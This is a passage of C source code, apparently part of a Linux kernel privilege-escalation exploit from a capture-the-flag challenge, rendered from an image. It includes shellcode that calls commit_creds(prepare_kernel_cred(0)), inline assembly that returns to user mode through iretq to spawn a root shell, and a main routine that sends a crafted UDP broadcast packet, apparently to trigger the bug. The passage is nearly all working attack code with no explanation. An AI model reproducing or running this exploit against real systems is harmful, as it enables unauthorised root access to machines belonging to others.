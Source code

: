 ```cpp
        puts("Get root failed!!!");
        exit(0);

    }
    printf("Enjoy your root shell:)\n");
    system("/bin/sh");
}

static void shellcode()
{
    commit_creds(prepare_kernel_cred(0));

    msleep(1000);
    asm(
        "swapgs\n"
        "movq %0,%%rax\n"    // push things into stack for iretq
        "pushq %%rax\n"
        "movq %1,%%rax\n"
        "pushq %%rax\n"
        "movq %2,%%rax\n"
        "pushq %%rax\n"
        "movq %3,%%rax\n"
        "pushq %%rax\n"
        "movq %4,%%rax\n"
        "pushq %%rax\n"
        "iretq\n"
        :
        :"r"(user_ss),"r"(buf+0x20000),"r"(user_rflags),"r"(user_cs),"r"(get_shell)
        :"memory"
       );
}

int main() {
    system("./server >/tmp/tt&");
    int sock = socket(AF_INET, SOCK_DGRAM, 0);

    struct Packet packet;
    int bufferlen;
    bufferlen=0x400;

LOOP:
    memcpy(packet.header,"Nu1L",4);
    memset(packet.buffer,0,bufferlen);
    memcpy(packet.buffer,"\x13\x37",2);

    packet.size=bufferlen>>8;

    struct sockaddr_in serv_addr;

    int broadcast_enable = 1;
    if (setsockopt(sock, SOL_SOCKET, SO_BROADCAST, &broadcast_enable, sizeof(broadcast_enable)) < 0) {
        perror("setsockopt");
        exit(-1);
    }

    bzero((char*) &serv_addr, sizeof(serv_addr));
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(12345);
    serv_addr.sin_addr.s_addr = inet_addr("6.6.6.255");
    if (sendto(sock,&packet, bufferlen+6, 0, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
        perror("sendto");
```